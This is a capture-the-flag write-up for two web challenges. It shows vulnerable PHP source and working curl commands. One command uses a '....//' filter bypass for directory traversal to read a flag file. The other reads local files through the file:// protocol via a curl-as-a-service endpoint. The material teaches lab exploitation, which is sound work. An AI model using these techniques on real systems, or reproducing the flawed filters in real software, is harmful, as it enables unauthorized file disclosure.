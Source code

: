 # Web Challenges

### Index
___
1. [Web Ministrypalace](#web-ministrypalace)
2. [Web CaaS](#web-caas)

### Web Ministrypalace
___
![](images/web-ministrypalace.png)

There's not much here except the different language options at the top right corner of the page, which are links to the following:
```html
<a href="?lang=en.php">EN</a>
<a href="?lang=qw.php">QW</a>
```

The `index.php` file provided contains the following php snippet:
```php
<?php
$lang = ['en.php', 'qw.php'];
    include('pages/' . (isset($_GET['lang']) ? str_replace('../', '', $_GET['lang']) : $lang[array_rand($lang)]));
?>
```
The above php snippet does the following:
1. If the `GET` parameter is empty it loads either `en.php` or `qw.php` at random from the `pages` directory .
2. It tries to prevent a _directory traversal_ attack by replacing `'../'` with an empty string `''`.
    * A _directory traversal_ vulnerability allows an attacker to read an arbitrary file from the target system by specifying its path.
    * eg) `http://target.com/?q=/etc/passwd`
    * the directive `../` is a relative path to the parent directory from the current directory.

We can bypass the filter with `'....//'`, since the first matching `'../'` will get replaced by `''` and the outer `'../'` gets preserved.

Looking at the `Dockerfile` provided, the `flag` is located in the `root` directory of the web app. 
```Dockerfile # Copy challenge files
COPY challenge /www
COPY flag /
```
Now we need to locate the `flag` relative to the `pages` directory. 
```shell
$ find . 2>/dev/null               
.
./build_docker.sh
./challenge
./challenge/index.php
...
./challenge/pages
./challenge/pages/qw.php
./challenge/pages/en.php
./flag
```

We can test our exploit on the local docker instance first with the following command.
```shell
$ curl -s "http://172.17.0.2/?lang=....//....//flag" | grep -oE "CHTB{.*}"
CHTB{f4k3_fl4g_f0r_t3st1ng}
```

Success! Running the same command on the URL provided will gives us the flag.

```Flag = CHTB{b4d_4li3n_pr0gr4m1ng} ```

___

### Web CaaS
___
![](images/web-caas.png)
The website seems to execute a curl command with the host provided. 
![](images/web-caas-invalid.png)
After testing arbitary hostnames the command executes only upon entering a valid URL such as `http://172.17.0.2`.
![](images/web-caas-valid.png)

Let's analyse the source code provided to understand this better.
- index.php
    - It allows us to perform a `GET` or `POST` request to the routes `'/'` and `'/api/curl'` respectively, which in turn execute a method from `CurlController`.

```php
<?php 
date_default_timezone_set('UTC');

spl_autoload_register(function ($name){
    if (preg_match('/Controller$/', $name))
    {
        $name = "controllers/${name}";
    }
    else if (preg_match('/Model$/', $name))
    {
        $name = "models/${name}";
    }
    include_once "${name}.php";
});

$router = new Router();
$router->new('GET', '/', 'CurlController@index');
$router->new('POST', '/api/curl', 'CurlController@execute' );

$response = $router->match();

die($response);          
```
- CurlController.php
    - `index()` just routes the user to `index.html` page
    - `execute()` checks if the `ip` parameter of the POST request is set, creates a new command with the url value passed in the request body, excutes it and returns a JSON object. 
```php
<?php
class CurlController
{
    public function index($router)
    {
        return $router->view('index');
    }

    public function execute($router)
    {
        $url = $_POST['ip'];

        if (isset($url)) {
            $command = new CommandModel($url);
            return json_encode([ 'message' => $command->exec() ]);
        }
    }
}
```
- CommandModel.php
    - the constructor intialiases the curl command.
    - `exec()` calls the inbuilt php `exec()` function to execute the command.
```php
<?php
class CommandModel
{
    public function __construct($url)
    {
        $this->command = "curl -sL " . escapeshellcmd($url);
    }

    public function exec()
    {
        exec($this->command, $output);
        return $output;
    }
}
```
Since a valid URL can have many different protocols such `http, https, ftp, file,` etc., we can use the file protocol to retrieve the `flag`.

Once again by looking at the `Dockerfile` provided, the `flag` is located in the `root` directory of the web app. 
```Dockerfile 
# Copy challenge files
COPY challenge /www
# Copy flag
COPY flag /
```

We can test our exploit on the local docker instance first by running the following command.
```shell
$ curl -X POST -F "ip=file://localhost/flag" "http://172.17.0.2/api/curl" | grep -oE "CHTB{.*}"
CHTB{f4k3_fl4g_f0r_t3st1ng}
```

Success! Running the same command on the URL provided will gives us the flag.

```Flag = CHTB{f1le_r3trieval_4s_a_s3rv1ce}```